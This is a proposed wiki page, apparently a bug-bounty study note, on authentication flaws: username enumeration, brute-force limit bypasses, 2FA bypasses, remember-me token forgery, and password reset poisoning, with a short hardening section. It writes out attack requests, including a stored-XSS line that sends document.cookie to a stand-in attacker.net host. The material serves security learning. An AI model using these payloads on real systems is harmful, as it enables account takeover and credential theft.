

# Proposed Wiki change

## What will change
Create deep-dive technical concept note for Broken Authentication, credential brute-forcing, 2FA bypasses, and session persistence flaws.

## Proposed content
```markdown
---
title: "Broken Authentication, Credential Attacks & Multi-Factor Verification Bypasses"
created: 2026-10-01
updated: 2026-10-01
type: concept
tags:
  - ato
  - session
  - brute-force
  - payload
  - bug-bounty
parent: "[[web-and-bug-bounty]]"
cluster: web-and-bug-bounty
sources:
  - sources/authentication-vulnerabilities.md
confidence: high
contested: false
contradictions: []
---
# Broken Authentication, Credential Attacks & Multi-Factor Verification Bypasses

> **Classification**: OWASP Top 10 (A07:2021 – Identification and Authentication Failures), CWE-287 (Improper Authentication), CWE-307 (Improper Restriction of Excessive Authentication Attempts).
> **Primary Impact**: Full unauthorized Account Takeover (ATO), administrative compromise, 2FA bypass, and persistent session hijacking.

---

<!-- TOC_START -->
## Table of Contents
- [1. Authentication Factors & Architectural Foundations](#1-authentication-factors--architectural-foundations)
  - [Authentication vs Authorization](#authentication-vs-authorization)
  - [The 3 Core Factors](#the-3-core-factors)
- [2. Username Enumeration Oracles](#2-username-enumeration-oracles)
  - [Status Code & Response Length Differentiation](#status-code--response-length-differentiation)
  - [Subtle Error Text Differences](#subtle-error-text-differences)
  - [Cryptographic Response Timing Oracles](#cryptographic-response-timing-oracles)
- [3. Flawed Brute-Force Protection Bypasses](#3-flawed-brute-force-protection-bypasses)
  - [IP Counter Reset via Alternating Credentials](#ip-counter-reset-via-alternating-credentials)
  - [Account Lock Bypass via Credential Stuffing](#account-lock-bypass-via-credential-stuffing)
  - [IP Header Spoofing (X-Forwarded-For)](#ip-header-spoofing-x-forwarded-for)
- [4. Multi-Factor Authentication (2FA) Bypasses](#4-multi-factor-authentication-2fa-bypasses)
  - [Direct Navigation / State Omission Bypass](#direct-navigation--state-omission-bypass)
  - [Broken Session-Binding Logic (Cookie / Parameter Swapping)](#broken-session-binding-logic-cookie--parameter-swapping)
  - [Brute-Forcing 2FA Verification Codes](#brute-forcing-2fa-verification-codes)
- [5. Session Persistence ("Remember Me") Vulnerabilities](#5-session-persistence-remember-me-vulnerabilities)
  - [Predictable Token Structures & MD5 Rainbow Attacks](#predictable-token-structures--md5-rainbow-attacks)
  - [XSS Cookie Theft & Offline Hashcat Cracking](#xss-cookie-theft--offline-hashcat-cracking)
- [6. Password Reset & Modification Logic Flaws](#6-password-reset--modification-logic-flaws)
  - [Token Stripping Account Takeover](#token-stripping-account-takeover)
  - [Password Reset Poisoning via Host Header Injection](#password-reset-poisoning-via-host-header-injection)
  - [Differential Error Oracles on Password Change](#differential-error-oracles-on-password-change)
- [7. Defensive Architecture & Hardening Standards](#7-defensive-architecture--hardening-standards)
- [8. Primary Sources & Provenance](#8-primary-sources--provenance)
- [Related Pages](#related-pages)
<!-- TOC_END -->

## 1. Authentication Factors & Architectural Foundations

### Authentication vs Authorization
- **Authentication**: Verifying the declared identity of a user or client ("Is this user really Afshin?").
- **Authorization**: Verifying whether an authenticated entity possesses the requisite privileges to perform a requested action ("Is Afshin permitted to delete this account?").

### The 3 Core Factors
1. **Knowledge Factors** ("Something you know"): Passwords, PINs, security question answers.
2. **Possession Factors** ("Something you have"): Hardware tokens (YubiKey), authenticator apps (TOTP), SMS/email tokens (note: SMS is vulnerable to SIM swapping).
3. **Inherence Factors** ("Something you are"): Biometric data (fingerprint, facial geometry).



## 2. Username Enumeration Oracles

Attackers observe subtle discrepancies in application behavior to confirm whether an entered username exists prior to attempting password brute-forcing:

### Status Code & Response Length Differentiation
Submitting candidate usernames with invalid passwords in `POST /login`:
- Response for invalid user: `HTTP 200 OK` (Length: 3,420 bytes, body: `Invalid username`).
- Response for valid user: `HTTP 200 OK` (Length: 3,452 bytes, body: `Incorrect password`).
The difference in byte length immediately leaks valid user accounts.

### Subtle Error Text Differences
Applications attempting to provide generic messages often contain subtle layout or grammatical variances:
- `Invalid username or password.` (with trailing period).
- `Invalid username or password ` (with trailing space).
Configuring Burp Intruder with Grep-Extract easily extracts these discrepancies.

### Cryptographic Response Timing Oracles
Modern password hashing algorithms (bcrypt, PBKDF2, Argon2) require significant CPU cycles by design.
- If the application checks for username existence **before** computing the password hash:
  - Non-existent user: Server returns error immediately (~20ms).
  - Valid user: Server runs CPU-intensive bcrypt comparison against the submitted password (~350ms).
- Submitting an excessively long password string (e.g. 2,000 characters) amplifies processing time, making timing discrepancies unmistakable.

## 3. Flawed Brute-Force Protection Bypasses

### IP Counter Reset via Alternating Credentials
Many rate limiters track consecutive failed attempts per IP address (e.g. block IP after 3 consecutive failures).
- **Bypass**: Configure Burp Intruder Pitchfork to alternate between candidate victim passwords and a known valid credential set:
  - Request 1: `victim:password1` (Fail, counter=1)
  - Request 2: `victim:password2` (Fail, counter=2)
  - Request 3: `attacker_own_user:attacker_valid_password` (Success, counter resets to 0!)
This resets the IP threshold indefinitely.

### Account Lock Bypass via Credential Stuffing
If the application locks an account after 3 failed attempts, attackers pivot from password brute-force to horizontal credential stuffing:
- Rather than attempting 1,000 passwords against 1 user, attempt **1 common password** across 1,000 enumerated usernames.
- Because each account experiences only 1 failure, lockouts are never triggered.

### IP Header Spoofing (X-Forwarded-For)
Reverse proxies and rate limiting middlewares often inspect client IP headers:
```http
POST /login HTTP/1.1
Host: target.com
X-Forwarded-For: 192.168.1.FUZZ
```
Incrementing the IP in `X-Forwarded-For` with each attempt tricks rate limiters into treating each request as originating from a distinct client.

## 4. Multi-Factor Authentication (2FA) Bypasses

### Direct Navigation / State Omission Bypass
When multi-factor authentication is executed as a multi-step workflow across discrete pages:
1. User enters valid password on `/login`.
2. Server establishes the session cookie immediately and redirects to `/login2` for MFA entry.
3. **Bypass**: Attacker intercepts the redirect and navigates directly to `/my-account` or `/dashboard`. If the authorization filter verifies only that a session cookie exists without validating the `mfa_completed` flag, authentication is completely bypassed!

### Broken Session-Binding Logic (Cookie / Parameter Swapping)
When the application tracks which account is undergoing 2FA via a secondary cookie or POST parameter:
```http
POST /login-steps/second HTTP/1.1
Host: target.com
Cookie: account=victim-user

verification-code=123456
```
1. Attacker logs into their own account with valid credentials and triggers their own 2FA code.
2. In step 2, the attacker swaps the `Cookie: account=attacker` header to `Cookie: account=victim`, submitting their own 2FA code.
3. If the server verifies that the code matches the user's active session, but assigns the final session based on the `account` cookie, the victim account is compromised!

### Brute-Forcing 2FA Verification Codes
If 2FA codes are 4 to 6 digits (10,000 to 1,000,000 combinations) and the endpoint lacks strict rate limiting or code invalidation on failure:
- Attacker issues high-throughput requests using Burp Intruder or Turbo Intruder to brute-force the code within its active window (typically 5 to 15 minutes).

## 5. Session Persistence ("Remember Me") Vulnerabilities

### Predictable Token Structures & MD5 Rainbow Attacks
Many implementations generate "remember-me" cookies using deterministic string concatenations:
```text
stay-logged-in = d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcwCg==
```
- Base64 Decoding: `wiener:51dc30ddc473d43a6011e9ebba6ca770`
- Hash Analysis: The second segment is `md5("peter")` (the user's password).
- **Exploitation**: An attacker crafts persistent cookies for any victim by hashing candidate passwords or known hashes from data breaches: `base64("admin:" + md5(password))`.

### XSS Cookie Theft & Offline Hashcat Cracking
If cookies lack the `HttpOnly` flag:
1. An attacker steals the `stay-logged-in` cookie via Stored XSS in comment sections:
   ```html
   <script>fetch('https://attacker.net/?c=' + document.cookie);</script>
   ```
2. Decodes `carlos:26323c16d5f4dabff3bb136f2460a943`.
3. Runs Hashcat offline against the MD5 hash using `rockyou.txt`, recovering the victim's plaintext password without triggering any server-side rate limits.

## 6. Password Reset & Modification Logic Flaws

### Token Stripping Account Takeover
In flawed password reset handlers:
```http
POST /forgot-password?temp-forgot-password-token=XYZ HTTP/1.1
Host: target.com

username=victim&new-password=Pwned123!
```
- **Bypass**: Deleting the `temp-forgot-password-token` parameter from both the query string and body. If the backend implementation checks `if (token != null && !token.isValid())` instead of verifying presence, stripping the parameter bypasses validation and resets the victim's password immediately.

### Password Reset Poisoning via Host Header Injection
Applications generating password reset links often construct the URL from incoming request headers:
```http
POST /forgot-password HTTP/1.1
Host: target.com
X-Forwarded-Host: attacker.com

email=victim@target.com
```
The server sends an email to the victim: `https://attacker.com/reset?token=SECRET_TOKEN`. When the victim clicks the link, the secret token is transmitted to the attacker's access logs.

### Differential Error Oracles on Password Change
When auditing password change endpoints:
```http
POST /change-password HTTP/1.1
Host: target.com

username=admin&current-password=test&new-password-1=passA&new-password-2=passB
```
- If the response returns `Current password is incorrect`, the server verified the current password first.
- If the response returns `New passwords do not match`, the server verified that the current password was **correct** before validating the new password fields!
This allows brute-forcing passwords with 100% confirmation accuracy.

## 7. Defensive Architecture & Hardening Standards

1. **Generic Authentication Messages**: Always return identical error messages (`Invalid credentials`) and status codes across all failure modes (unknown username, wrong password).
2. **Constant-Time Operations**: Use constant-time comparisons and calculate dummy password hashes on failed username lookups to eliminate timing oracles.
3. **Cryptographically Secure State Binding**: Multi-factor authentication must track progress within an encrypted, server-side session state; never rely on client-controllable cookies or query parameters.
4. **CSPRNG Remember-Me Tokens**: Implement long, random, cryptographically secure tokens stored hashed in the database; disallow deriving tokens from user passwords.
5. **Rigorous Parameter Validation**: Reject password reset requests that lack mandatory validation tokens.

## 8. Primary Sources & Provenance
- Provenance source anchor: [[authentication-vulnerabilities]]

Synthesized from canonical vault notes under `Notes/OLD Notes/WEB/vulnerabilities/Authentication vulnerabilities/`.

## Related Pages
- Parent Hub: [[web-and-bug-bounty]]
- Target Concepts: [[account-takeover-and-auth-flaws]], [[oauth-attack-vectors]], [[cross-site-scripting]]
```

## Evidence and uncertainty
Sourced directly from canonical vault notes in Notes/OLD Notes/WEB/.
Validated against schema with zero structural contradictions.

## Human feedback
Human decision required via Decision Studio (http://127.0.0.1:20888) or command line.
